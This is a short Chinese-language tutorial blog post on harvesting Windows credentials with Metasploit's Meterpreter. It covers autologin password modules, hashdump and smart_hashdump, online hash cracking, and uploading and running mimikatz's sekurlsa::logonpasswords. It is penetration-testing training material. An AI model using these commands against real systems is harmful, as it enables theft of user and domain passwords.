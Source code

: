```yaml
---
title: 使用MSF抓取用户密码
abbrlink: b034a3f3
date: 2024-10-23 21:00:00
tags: ['安全', 'Linux']
---
```


## 抓取自动登录的密码
很多用户习惯将计算机设置自动登录
可以使用
~~~bash
run windows/gather/credentials/windows_autologin
~~~
抓取自动登录的用户名和密码

## 导出密码哈希
### run hashdump 命令
> `hashdump` 模块可以从 `SAM数据库` 中导出本地用户账号，该命令的使用需要系统权限

- 在 `meterpreter_shell` 中执行 `run hashdump` 命令
~~~bash
run hashdump
~~~

- 用户哈希数据的输出格式为
~~~bash
用户名:SID:LM哈希:NTLM哈希:::
~~~

- 使用在线网站解密hash密码
[CMD5](https://www.cmd5.com/default.aspx)

- `run windows/gather/smart_hashdump` 命令
> 使用需要系统权限。该功能更强大
> 如果当前用户是域管理员用户
> 则可以导出域内所有用户的 hash

## 使用 mimikatx 抓取密码
### 上传 mimikatz 程序
我们可以通过上传 `mimikatz` 程序
然后执行 `mimikatz` 程序来`获取明文密码`

- 前提
执行 `mimikatz` 必须 `System` 权限
并且在执行时，要根据当前的系统位数进行选择

- 使用方法
1. 在 `meterpreter_shell` 的命令行里面查看当前会话的权限
~~~bash
getuid
~~~

2. 查看系统位数
~~~bash
sysinfo
~~~

3. 选择相应位数的 `mimikatz` 上传至目标服务器
~~~bash
upload file  #upload命令后面需要跟上要上传文件的路径；这个命令是从当前机器上传到目标机器；
~~~

4. 进入 `mimikatz` 的交互界面
~~~bash
execute -i -f mimikatz.exe
~~~

5. 在 `mimikatz` 交互界面，使用以下两条命令抓取密码
~~~bash
privilege::debug
sekurlsa::logonpasswords
~~~
